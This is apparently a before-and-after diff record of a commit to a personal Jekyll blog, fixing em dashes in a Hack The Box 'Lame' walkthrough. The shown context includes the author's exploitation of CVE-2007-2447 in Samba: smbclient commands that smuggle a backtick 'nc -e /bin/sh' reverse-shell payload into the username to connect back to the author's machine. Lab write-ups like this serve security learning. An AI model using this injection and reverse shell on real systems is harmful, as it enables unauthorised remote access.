

Before and after one commit to thatvirdiguy/thatvirdiguy.github.io, a Jekyll site: the page built from _posts/2022-02-16-hack-the-box:-lame.md, in a window 1280 px wide and 1400 px high, scrolled down 4687 px. Shown: the whole window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
proper em dash

````diff
--- a/_posts/2022-02-16-hack-the-box:-lame.md
+++ b/_posts/2022-02-16-hack-the-box:-lame.md
@@ -2,7 +2,7 @@
 
 This is my write-up/walkthrough for [the Hack The Box machine, Lame](https://app.hackthebox.com/machines/Lame). It's a Linux machine, rated "Easy", with 10.10.10.3 as its IP address.
 
-I started with an nmap scan——
+I started with an nmap scan—
 
 ```
 ┌──(thatvirdiguy㉿kali)-[~]
@@ -63,7 +63,7 @@
 Nmap done: 1 IP address (1 host up) scanned in 83.22 seconds
 ```
 
-——that told me I have port 21 (FTP), port 22 (SSH), port 139 (NetBIOS), and port 445 (SMB) to work with. Anonymous login is allowed for FTP, so my first instinct was to use that and see if it gets us somewhere.
+—that told me I have port 21 (FTP), port 22 (SSH), port 139 (NetBIOS), and port 445 (SMB) to work with. Anonymous login is allowed for FTP, so my first instinct was to use that and see if it gets us somewhere.
 
 
 ```
@@ -173,7 +173,7 @@
 
 I spent some time googling what this "`VGAuthService`" is, what this log file is telling us, etc., but all in vain. This wasn't the way to approach the problem. I realised that when, frustated I wasn't getting anywhere on this "easy" machine, I noticed the "`lame server (Samba 3.0.20-Debian)`" next to the IPC-type shares in the output of that `smbclient -L` command run.
 
-Ran a searchsploit for "samba 3.0"——
+Ran a searchsploit for "samba 3.0"—
 
 ```
 ┌──(thatvirdiguy㉿kali)-[~]
@@ -197,29 +197,29 @@
 Shellcodes: No Results
 ```
 
-——and voilà!
+—and voilà!
 
 That "'Username' map script' Command Execution" looked interesting, so I started reading more on that –  which lead me to [CVE-2007-2447](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-2447). "[...] allows remote attackers to execute arbitrary commands via shell". Perfect.
 
 I looked it up in Rapid7's Vulnerability & Exploit Database and got a simplied explaination of what makes this vulnerability tick. Apparently, passing a username containing shell meta characteres confuses one of the functions that calls external scripts defined in config. Or something like that. [Here](https://www.samba.org/samba/security/CVE-2007-2447.html) is Samba's blog for this vulnerability on their product and [here](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/) is Rapid7's explaination of it.
 
-I didn't want to use Metasploit on this and just be done with it, though looking at that Rapid7 page, that does seem to be the easiest way to pwn this box. [Line 74](https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/multi/samba/usermap_script.rb#L74) of source code linked on that page did give me an idea, though. I was hoping something like the following would work——
+I didn't want to use Metasploit on this and just be done with it, though looking at that Rapid7 page, that does seem to be the easiest way to pwn this box. [Line 74](https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/multi/samba/usermap_script.rb#L74) of source code linked on that page did give me an idea, though. I was hoping something like the following would work—
 
 ```
 ┌──(thatvirdiguy㉿kali)-[~]
 └─$ smbclient -N \\\\10.10.10.3\\ADMIN$ -U './=`nohup nc -e /bin/sh 10.10.16.4 1234`'
 session setup failed: NT_STATUS_LOGON_FAILURE
 ```
-——but that didn't seem to be the case. Here, "nc -e /bin/sh 10.10.16.4 1234" is the payload. I was trying to get a reverse shell on my machine (10.10.16.4), on the specified port (1234), but for reasons beyond me, it was wasn't working. Until, that is, I stumbled upon [this](https://askubuntu.com/questions/109507/smbclient-getting-nt-status-logon-failure-connecting-to-windows-box) useful discussion over at the Stack Exchange forums.
+—but that didn't seem to be the case. Here, "nc -e /bin/sh 10.10.16.4 1234" is the payload. I was trying to get a reverse shell on my machine (10.10.16.4), on the specified port (1234), but for reasons beyond me, it was wasn't working. Until, that is, I stumbled upon [this](https://askubuntu.com/questions/109507/smbclient-getting-nt-status-logon-failure-connecting-to-windows-box) useful discussion over at the Stack Exchange forums.
 
-Modified my command to the following——
+Modified my command to the following—
 
 ```
 ┌──(thatvirdiguy㉿kali)-[~]
 └─$ smbclient -N \\\\10.10.10.3\\ADMIN$ -U DOMAIN/'./=`nohup nc -e /bin/sh 10.10.16.4 1234`'
 ```
 
-——while I had `nc` listening for connections on port 1234 on another terminal.
+—while I had `nc` listening for connections on port 1234 on another terminal.
 
 ```
 ┌──(thatvirdiguy㉿kali)-[~]
````
